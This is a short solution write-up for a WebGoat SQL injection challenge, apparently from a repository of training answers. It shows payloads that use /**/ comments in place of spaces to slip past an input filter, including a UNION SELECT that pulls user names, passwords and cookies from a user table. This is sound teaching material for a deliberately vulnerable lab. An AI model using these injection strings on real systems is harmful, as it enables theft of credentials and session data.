

# Challenge name: Input validation alone is not enough!!

### Challenge Description:

You need to do both, use parametrized queries and validate the input received from the user. On StackOverflow you will see a lot of answers stating that input validation is enough. However it only takes you so far before you know the validation is broken, and you have an SQL injection in your application.

A nice read why it is not enough can be found https://twitter.com/marcan42/status/1238004834806067200?s=21

Let’s repeat one of the previous assignments, the developer fixed the possible SQL injection with filtering, can you spot the weakness in this approach?

### My solution
If you use `';select * from user_system_data -- ` like [sqli-advanced/chall-1](/webgoat/a3-injection/sqli-advanced/chall-1.md)

Don't worry, we can use `/**/` to replace the `white space`

After replace, payload look like: `';select/**/*/**/from/**/user_system_data/**/--/**/` or
`'/**/union/**/select/**/userid,user_name,password,cookie,null,null,null/**/from/**/user_system_data/**/--/**/`
